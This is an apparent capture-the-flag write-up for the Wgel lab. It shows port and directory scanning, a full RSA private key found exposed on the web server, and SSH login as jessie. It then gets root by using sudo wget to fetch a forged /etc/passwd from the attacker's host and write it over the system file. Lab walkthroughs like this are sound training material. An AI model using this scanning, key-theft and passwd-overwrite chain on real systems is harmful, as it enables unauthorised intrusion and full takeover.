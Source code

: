 # Wgel CTF

## User flag

- Scan Ports
    
    ```bash
    sudo nmap -n -sV -A -O 10.10.173.225
    ```
    
    > PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
    |   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
    |_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    > 
- On the first page, in the source code
    
    ```bash
    <!-- Jessie don't forget to udate the webiste -->
    ```
    
- Scan directorys web
    
    ```bash
    gobuster -u 10.10.173.225 -w wordlist/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,txt
    ```
    
    > /index.html (Status: 200)
    /sitemap (Status: 301)
    > 
- More scan
    
    ```bash
    dirb
    gobuster -u 10.10.173.225/sitemap -w /usr/share/dirb/wordlists/common.txt -x txt,php,html,txt
    ```
    
- strangely appears a `.ssh`
- `10.10.173.225/sitemap/.ssh`
- `http://10.10.173.225/sitemap/.ssh/id_rsa`
- Copy this file
    
    ```bash
    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
    m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
    W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
    y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
    +J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
    Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
    /1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
    AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
    M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
    SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
    2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
    p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
    7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
    dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
    GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
    shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
    uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
    LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
    QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
    V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
    hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
    9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
    eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
    QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
    jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
    -----END RSA PRIVATE KEY-----
    
    ```
    
- With this we can enter the SSH
    
    ```bash
    ssh -i key jessie@10.10.173.225
    ```
    
- Search the `User flag`
    
    ```bash
    ls
    ls /home
    ls /home/jessie
    ls /home/jessie/Documents/
    cat /home/jessie/Documents/user_flag.txt
    ```
    
- `057c67131c3d5e42dd5cd3075b198ff6`

## Root flag

```bash
sudo -l -l
```

- We have the `wget`
    - [https://gtfobins.github.io/gtfobins/wget/#file-download](https://gtfobins.github.io/gtfobins/wget/#file-download)
- Read the passwd
    
    ```bash
    cat /etc/passwd
    ```
    
- Copy this for our computer
- Let's encrypt a password of ours to replace with the contents of the root and jessie password
    
    ```bash
    python
    import crypt
    crypt.crypt("senha")
    $6$0/rQlegVhcHrEW3U$Vip/r0HdRYNgIO3uhlLYD2Y9Jdy7FD4WwcLzr6T0COV5/vB3meDqXqh0hRvVLZrmqQKGiag0X4fwtdTdec44t0
    ```
    
- Move this to the root's and Jessie's password
    - `$6$0/rQlegVhcHrEW3U$Vip/r0HdRYNgIO3uhlLYD2Y9Jdy7FD4WwcLzr6T0COV5/vB3meDqXqh0hRvVLZrmqQKGiag0X4fwtdTdec44t0`
    
    ![Untitled](Untitled.png)
    
- Move this content to `/var/www/html`
    
    ```bash
    sudo mv passwd /var/www/html
    service apache2 start
    ifconfig
    ```
    
- On Jessie’ computer
    - [https://gtfobins.github.io/gtfobins/wget/#file-download](https://gtfobins.github.io/gtfobins/wget/#file-download)
    
    ```bash
    sudo wget 10.8.154.250/passwd -O /etc/passwd
    sudo su
    senha
    whoami
    cd /root
    cat *
    ```
    
- `b1b968b37519ad1daa6408188649263d`